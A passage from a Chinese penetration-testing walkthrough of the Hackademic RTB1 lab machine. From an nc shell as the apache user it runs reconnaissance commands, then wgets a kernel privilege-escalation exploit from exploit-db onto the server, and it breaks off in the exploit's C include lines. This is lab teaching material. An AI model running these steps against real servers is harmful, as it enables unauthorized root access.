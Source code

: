 点击连接我们会看到

![](渗透测试之从收集信息到入侵提权/30.png) 

接下来我们尝试执行一些命令：

```shell
id
uid=48(apache) gid=489(apache) groups=489(apache)
 （用来显示用户的id和组）

pwd
/var/www/html/Hackademic_RTB1/wp-content/plugins
 （显示服务器上当前的路径）

uname -a
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
（显示内核版本信息）
```

![](渗透测试之从收集信息到入侵提权/31.png)

现在我们知道，服务器的内核版本是2.6.31.5-127.fc12.1686,我们在exploit-db.com中搜索此版本的相关漏洞.
在服务器上测试了很多exp之后，我们用以下的exp来提升权限.
http://www.exploit-db.com/exploits/15285

我们在nc shell上执行以下命令:

```shell
wget http://www.exploit-db.com/exploits/15285 -o roro.c
```

(下载exp到服务器并重命名为roro.c)
注：很多linux内核的exp都是C语言开发的,因此我们保存为.c扩展名.
exp roro.c代码如下：

```c
# include <stdio.h>

# include <unistd.h>

# include <stdlib.h>

# include <fcntl.h>

# include <sys/types.h>

# include <sys/socket.h>

# include <netinet/in.h>

# include <errno.h>

# include <string.h>

# include <sys/ptrace.h>
```